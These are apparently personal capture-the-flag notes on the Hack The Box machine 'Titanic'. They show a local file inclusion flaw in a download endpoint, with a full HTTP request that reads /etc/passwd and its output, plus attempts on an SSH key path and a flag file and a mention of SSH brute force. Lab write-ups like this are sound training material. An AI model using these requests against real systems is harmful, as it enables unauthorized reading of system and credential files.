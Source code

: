 
webpage
![[Images/Pasted image 20250319144627.png]]

the only thing we can do on the site is booking, which downloads a file

```sh
┌──(fixit㉿asusx555b)-[~/Downloads]
└─$ cat aa1bd345-7ac5-45bc-a2cd-6480b427ec5b.json 
{"name": "a", "email": "test@test.test", "phone": "1", "date": "2025-03-10", "cabin": "Standard"} 

┌──(fixit㉿asusx555b)-[~/Downloads]
└─$ cat ce46a69d-fd79-496d-8078-d2bd72eef52a.json 
{"name": "'", "email": "test@test.test", "phone": "1", "date": "2025-03-10", "cabin": "Standard"}
```

this appears to be files that are downloaded so testing if we can download system files

lfi /etc/passwd

```http
GET //download?ticket=/etc/passwd HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.7,sv;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

```http
HTTP/1.1 200 OK
Date: Mon, 17 Mar 2025 12:57:10 GMT
Server: Werkzeug/3.0.3 Python/3.10.12
Content-Disposition: attachment; filename="/etc/passwd"
Content-Type: application/octet-stream
Content-Length: 1951
Last-Modified: Fri, 07 Feb 2025 11:16:19 GMT
Cache-Control: no-cache
ETag: "1738926979.4294043-1951-393413677"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

only one line with /bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash

try ssh bruteforce?

/etc/home/developer/.ssh/id_rsa
"error":"Ticket not found"

we get he same error when trying other files that doesn't exist

also tested rfi, does not work

/etc/home/developer/flag.txt